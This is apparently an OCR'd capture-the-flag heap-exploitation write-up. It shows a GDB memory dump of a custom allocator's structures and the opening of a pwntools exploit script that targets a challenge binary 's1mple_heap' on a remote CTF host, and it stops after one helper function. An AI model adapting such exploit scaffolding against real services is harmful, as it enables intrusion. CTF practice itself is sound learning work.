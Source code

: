   ```
  0x5555555582a0 <mmap+608>:	0x0000000000000000	0x0000000000000000
  0x5555555582b0 <mmap+624>:	0x0000000000000000	0x0000000000000000
  0x5555555582c0 <mmap+640>:	0x0000000000000000	0x0000000000000000
  0x5555555582d0 <mmap+656>:	0x0000000000000000	0x0000000000000000
  0x5555555582e0 <mmap+672>:	0x0000000000000000	0x0000000000000000
  0x5555555582f0 <mmap+688>:	0x0000000000000000	0x0000000000000000
  0x555555558300 <mmap+704>:	0x0000000000000000	0x0000000000000000
  0x555555558310 <mmap+720>:	0x0000000000000000	0x0000000000000000
  0x555555558320 <mmap+736>:	0x0000000000000000	0x0000000000000000
  0x555555558330 <mmap+752>:	0x0000000000000000	0x0000000000000000
  0x555555558340 <mmap+768>:	0x0000000000000000	0x0000000000000000
  0x555555558350 <mmap+784>:	0x0000000000000000	0x0000000000000000
  0x555555558360 <mmap+800>:	0x0000000000000000	0x0000000000000000
  0x555555558370 <mmap+816>:	0x0000000000000000	0x0000000000000000
  0x555555558380 <mmap+832>:	0x0000000000000000	0x0000000000000000
  0x555555558390 <mmap+848>:	0x0000000000000000	0x0000000000000000
  0x5555555583a0 <mmap+864>:	0x0000000000000000	0x0000000000000000
  0x5555555583b0 <mmap+880>:	0x0000000000000000	0x0000000000000000
  0x5555555583c0 <mmap+896>:	0x0000000000000000	0x0000000000000000
  0x5555555583d0 <mmap+912>:	0x0000000000000000	0x0000000000000000
  0x5555555583e0 <mmap+928>:	0x0000000000000000	0x0000000000000000
  0x5555555583f0 <mmap+944>:	0x0000000000000000	0x0000000000000000
  0x555555558400 <mmap+960>:	0x0000000000000000	0x0000000000000000
  0x55555555 8410   <mmap+976>:	0x0000000000000000	0x0000000000000000
  0x555555558420 <mmap+992>:	0x0000000000000000	0x0000000000000000
  0x555555558430 <mmap+1008>:	0x0000000000000000	0x0000000000000000
  0x555555558440 <fast_bin>:	0x0000000000000000	0x0000000000000000
  0x555555558450 <fast_bin+16>:	0x0000000000000000	0x0000000000000000
  0x555555558460 <ChunkInfo>:	0x0000555555558050	0x0000000000000010
  0x555555558470 <ChunkInfo+16>:	0x0000000000000000	0x0000000000000000
  0x555555558480 <ChunkInfo+32>:	0x0000000000000000	0x0000000000000000
  0x555555558490 <ChunkInfo+48>:	0x0000000000000000	0x0000000000000000
  0x5555555584a0 <ChunkInfo+64>:	0x0000000000000000	0x0000000000000000
  0x5555555584b0 <ChunkInfo+80>:	0x0000000000000000	0x0000000000000000
  0x5555555584c0 <ChunkInfo+96>:	0x0000000000000000	0x0000000000000000
  0x5555555584d0 <ChunkInfo+112>:	0x0000000000000000	0x0000000000000000
  0x5555555584e0 <ChunkInfo+128>:	0x0000000000000000	0x0000000000000000
  0x5555555584f0 <ChunkInfo+144>:	0x0000000000000000	0x0000000000000000
  0x555555558500 <ChunkInfo+160>:	0x0000000000000000	0x0000000000000000
  0x555555558510 <ChunkInfo+176>:	0x0000000000000000	0x0000000000000000
  0x555555558520 <ChunkInfo+192>:	0x0000000000000000	0x0000000000000000
  0x555555558530 <ChunkInfo+208>:	0x0000000000000000	0x0000000000000000
  0x555555558540 <ChunkInfo+224>:	0x0000000000000000	0x0000000000000000
  ```
  
  
  
  ```
  from pwn import *
  
  context(os='linux',arch='amd64',log_level='debug')
  content = 0
  
  elf = ELF("./s1mple_heap")
  libc = ELF('./libc-2.31.so')
  
  if content == 1:
      giacomo = process('./s1mple_heap')
  else:
      giacomo = remote("pwn.blackbird.wang",9600)
  
  def allocate(size):
      size = str(size)
      giacomo.sendlineafter('5.exit\n','1')
  ```